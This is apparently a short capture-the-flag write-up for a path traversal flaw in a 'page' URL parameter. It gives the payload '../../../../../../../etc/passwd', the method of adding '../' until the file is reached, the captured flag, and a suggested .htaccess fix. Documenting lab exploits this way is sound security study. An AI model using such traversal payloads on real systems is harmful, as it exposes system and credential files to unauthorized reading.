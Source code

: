# Where:
    /?page=../../../../../../../etc/passwd
# How:

-Start at:

    /?page=../etc/passwd

-Add:

    ../

-to the front until you get the flag.

# Flag:
    b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0

# Possible abuses:

Malicious users can access important info like passwords making it insecure.

# Fix:

Block direct access to directories or files using a .htaccess or similar file